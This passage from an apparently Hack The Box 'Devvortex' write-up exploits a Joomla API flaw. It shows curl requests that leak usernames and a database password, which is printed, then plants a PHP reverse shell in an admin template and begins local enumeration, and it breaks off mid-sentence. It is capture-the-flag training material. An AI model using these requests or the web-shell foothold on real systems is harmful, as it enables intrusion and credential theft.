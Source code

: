 ![Pasted image 20240427193434](https://github.com/iammR0OT/HTB/assets/74102381/9351fe49-fa6a-4969-9292-8d795d605751)

A great article explaining the whole vulnerability and it's potential exploits can be found [here](https://vulncheck.com/blog/joomla-for-rce).
We will be using `curl -v http://dev.devvortex.htb/api/index.php/v1/users?public=true` to leak the usernames.

```
lewis@devvortex.htb
logan@devvortex.htb
```

![Pasted image 20240427194154](https://github.com/iammR0OT/HTB/assets/74102381/0b7ff3f8-05bb-4f66-a37c-745d7136bd3b)

To leak the database cred's, we will be using `curl -v http://10.9.49.205/api/index.php/v1/config/application?public=true`

```
lewis : P4ntherg0t1n5r3c0n##
```

![Pasted image 20240427194603](https://github.com/iammR0OT/HTB/assets/74102381/20337a13-39bb-4dfa-b628-b2892b3b82c0)

The database password is being used by **lewis** user who administrator on the CPanel. Let's add a php **reverseshell** on the administrator templates to gain initial foothold on the box

![Pasted image 20240427195500](https://github.com/iammR0OT/HTB/assets/74102381/6233c304-6051-49c4-96c5-ce8eb9899dc7)

After loading the **error.php** file we immediately get a shell on the box as a **www-data**.

![Pasted image 20240427195549](https://github.com/iammR0OT/HTB/assets/74102381/ce30abdd-180d-4ddd-ba94-59cc561e7350)

Through **/etc/passwd** file, we discover that, there is only two valid users on the box. And we don't have rights to see the content of either of these users'

```
logan
root
```

![Pasted image 20240427195839](https://github.com/iammR0OT/HTB/assets/74102381/a98c46af-14de-424e-a47b-3258ce00b3aa)

We discovered that the port 3306 (mysql) is running locally using 

```bash
$ ss -lntp
```

- **-l** for list the listening ports
- **-n** for numeric port number, not the service name
- **-t** to list the tcp ports
- **-p** to list the processes

![Pasted image 20240427200323](https://github.com/iammR0OT/HTB/assets/74102381/5705e6b9-726f-4c82-b46a-81e74f89232d)

Let's use the database (mysql) credentials we found using joomal CVE here to dump the database. Because the database port was not discovered
